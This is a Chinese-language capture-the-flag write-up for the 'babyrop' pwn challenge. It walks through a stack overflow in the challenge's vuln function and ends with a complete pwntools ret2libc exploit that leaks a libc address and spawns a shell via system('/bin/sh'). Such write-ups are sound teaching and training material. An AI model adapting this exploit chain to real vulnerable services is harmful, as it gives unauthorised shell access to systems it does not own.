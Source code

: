 # babyrop
- 作者：pn1fg
- 参考：SVUCTF-2023
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Pwn
- 镜像：[svuctf-winter-2023/babyrop](https://ghcr.io/svuctf/svuctf-winter-2023/babyrop)
- 端口：70

## 题目描述
本题考点 `ret2libc` 

## 题目解析
- 源码：[babyrop.c](build/babyrop)
- 考点：ret2libc

#### 查看文件信息
查看文件类型（`file` 命令）：
```shell
$ file babyrop
babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1adc48d4177aba667c4f389c674628d870b8a762, for GNU/Linux 3.2.0, not stripped
```
这是一个64位 ELF 文件（`ELF 64-bit LSB executable`），动态链接（`dynamically linked`），没有去除符号（`not stripped`）

检查文件保护机制（`checksec`命令）：
```shell
$ checksec babyrop 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
### 分析漏洞成因
反编译 `vuln` 函数：
```c
void sym.vuln(void)

{
    ulong ptr;
    ulong var_88h;
    ulong var_80h;
    ulong var_78h;
    uchar buf [112];

    ptr = 0x6b20756f79206f44;
    var_88h = 0x6666756220776f6e;
    var_80h = 0x667265766f207265;
    var_78h._0_4_ = 0x3f776f6c;
    var_78h._4_2_ = 10;
    sym.imp.write(1, &ptr, 0x1e);
    sym.imp.read(0, buf, 0x200);
    return;
}
```
`read` 函数处存在溢出漏洞

使用 gdb + pwndbg 调试，在 `0x401227` 处打断点，输入一串字符串，打印栈上的情况
```asm
pwndbg> stack 30
00:0000│ rsp 0x7fffffffe400 ◂— 'Do you know buffer overflow?\n'
01:0008│     0x7fffffffe408 ◂— 'now buffer overflow?\n'
02:0010│     0x7fffffffe410 ◂— 'er overflow?\n'
03:0018│     0x7fffffffe418 ◂— 0xa3f776f6c /* 'low?\n' */
04:0020│ rsi 0x7fffffffe420 ◂— 0x4141414141414141 ('AAAAAAAA')
05:0028│     0x7fffffffe428 —▸ 0x7ffff7e3630a (_IO_file_overflow+186) ◂— jg 0x7ffff7e3627d
06:0030│     0x7fffffffe430 ◂— 0x3c7
07:0038│     0x7fffffffe438 —▸ 0x402008 ◂— 0x2d2d2d2d2d2d2d2d ('--------')
08:0040│     0x7fffffffe440 —▸ 0x7ffff7f8b5c0 (_IO_2_1_stdout_) ◂— 0xfbad2887
09:0048│     0x7fffffffe448 —▸ 0x7ffff7e2bdea (puts+506) ◂— cmp eax, -1
0a:0050│     0x7fffffffe450 —▸ 0x7ffff7f8b4e0 (_IO_2_1_stderr_) ◂— 0xfbad2087
0b:0058│     0x7fffffffe458 —▸ 0x7ffff7e2c50d (setvbuf+285) ◂— cmp rax, 1
0c:0060│     0x7fffffffe460 —▸ 0x7fffffffe5b8 —▸ 0x7fffffffe91f 
0d:0068│     0x7fffffffe468 —▸ 0x7fffffffe490 —▸ 0x7fffffffe4a0 ◂— 0x1
0e:0070│     0x7fffffffe470 ◂— 0x0
0f:0078│     0x7fffffffe478 —▸ 0x7fffffffe5c8 —▸ 0x7fffffffe933 ◂— 'XDG_RUNTIME_DIR=/run/user/1000'
10:0080│     0x7fffffffe480 —▸ 0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2d0 ◂— 0x0
11:0088│     0x7fffffffe488 —▸ 0x40120f (banner+20) ◂— nop
12:0090│ rbp 0x7fffffffe490 —▸ 0x7fffffffe4a0 ◂— 0x1
13:0098│     0x7fffffffe498 —▸ 0x4012cd (main+38) ◂— mov eax, 0
14:00a0│     0x7fffffffe4a0 ◂— 0x1
15:00a8│     0x7fffffffe4a8 —▸ 0x7ffff7dd9cd0 (__libc_start_call_main+128) ◂— mov edi, eax
16:00b0│     0x7fffffffe4b0 —▸ 0x7fffffffe5a0 —▸ 0x7fffffffe5a8 —▸ 0x7ffff7f94000 —▸ 0x7ffff7db2000 ◂— ...
17:00b8│     0x7fffffffe4b8 —▸ 0x4012a7 (main) ◂— endbr64
18:00c0│     0x7fffffffe4c0 ◂— 0x100400040 /* '@' */
19:00c8│     0x7fffffffe4c8 —▸ 0x7fffffffe5b8 —▸ 0x7fffffffe91f
1a:00d0│     0x7fffffffe4d0 —▸ 0x7fffffffe5b8 —▸ 0x7fffffffe91f 
1b:00d8│     0x7fffffffe4d8 ◂— 0x720d8351e2e1f40c
1c:00e0│     0x7fffffffe4e0 ◂— 0x0
1d:00e8│     0x7fffffffe4e8 —▸ 0x7fffffffe5c8 —▸ 0x7fffffffe933 ◂— 'XDG_RUNTIME_DIR=/run/user/1000'
```
我们输入的 `buf` 距离 `rbp` 寄存器 `0x7fffffffe490 - 0x7fffffffe420 = 0x70` ，与反汇编时输出一致，当输入 `0x70` 个字符后，再输入8个字节，就可完全覆盖 `rbp` ，继续再输入8个字节即可覆盖返回地址

### 构造利用载荷
列出所有函数：
```c
[0x0040121f]> afl
0x004010b0    1     46 entry0
0x004010f0    4     31 sym.deregister_tm_clones
0x00401120    4     49 sym.register_tm_clones
0x00401160    3     32 sym.__do_global_dtors_aux
0x00401190    1      6 sym.frame_dummy
0x00401350    1      5 sym.__libc_csu_fini
0x0040121f    1    136 sym.vuln
0x00401080    1     11 sym.imp.write
0x00401090    1     11 sym.imp.read
0x00401358    1     13 sym._fini
0x00401212    1     10 sym.gadget
0x004011fb    1     23 sym.banner
0x00401070    1     11 sym.imp.puts
0x00401196    1    101 sym.init
0x004010a0    1     11 sym.imp.setvbuf
0x004012e0    4    101 sym.__libc_csu_init
0x004010e0    1      5 sym._dl_relocate_static_pie
0x004012a7    1     45 main
0x00401000    3     27 sym._init
```
没有发现 `system`、`execve` 等函数

查找一下敏感字符串
```shell
$ ROPgadget --binary babyrop --string "/bin/sh"
Strings information
============================================================
```
分析到这可以判断本题使用的攻击方式是 `ret2libc` ，并且本题的输出函数只有一个 `write` 函数，我们来看一下 `write` 函数的原型

```shell
ssize_t write(int fd, void *buf, size_t count);
```
- `fd`：文件描述符，`1` 为标准输出
- `buf`：读入位置
- `count`：写入的字节数

64 位 ELF 文件，所以需要寄存器传参，这里一共需要三个

获取 ROP：
```shell
$ ROPgadget --binary babyrop --only 'pop|ret'
Gadgets information
============================================================
0x000000000040133c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040133e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401340 : pop r14 ; pop r15 ; ret
0x0000000000401342 : pop r15 ; ret
0x000000000040133b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040133f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040117d : pop rbp ; ret
0x0000000000401343 : pop rdi ; ret
0x000000000040121a : pop rdx ; ret
0x0000000000401341 : pop rsi ; pop r15 ; ret
0x000000000040133d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
```

### 编写利用程序
[exp.py](writeup/exp.py)
```python
from pwn import *
from LibcSearcher import *

context.arch = 'amd64'
context.log_level = 'debug'

if args['REMOTE']:
    io = remote('IP',port)
else:
    io = process('./babyrop')

elf = ELF('./babyrop')
padding = 0x70 + 8
pop_rdi_ret = 0x0000000000401343
pop_rsi_r15_ret = 0x0000000000401341
pop_rdx_ret = 0x000000000040121a
ret_add = 0x000000000040101a

payload = flat(
        [
            cyclic(padding),
            pop_rdi_ret,
            1,
            pop_rsi_r15_ret,
            elf.got['write'],
            0,
            pop_rdx_ret,
            8,
            elf.plt['write'],
            elf.sym['vuln'],
        ]
)

io.sendlineafter(b'flow?\n',payload)
write_add = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
success(f'write_add ==> {hex(write_add)}')

if args['REMOTE']:
    libc = LibcSearcher('write',write_add)
    base_add = write_add - libc.dump('write')
    system_add = base_add + libc.dump('system')
    bin_sh_add = base_add + libc.dump('str_bin_sh')
else:
    libc = elf.libc
    base_add = write_add - libc.sym['write']
    system_add = base_add + libc.sym['system']
    bin_sh_add = base_add + next(libc.search(b'/bin/sh'))

payload = flat(
        [
            cyclic(padding),
            pop_rdi_ret,
            bin_sh_add,
            system_add,
        ]
)

io.sendlineafter(b'flow?\n',payload)
io.interactive()
```
第一次泄漏的 `payload` 稍微有点复杂，大家注意栈上参数布置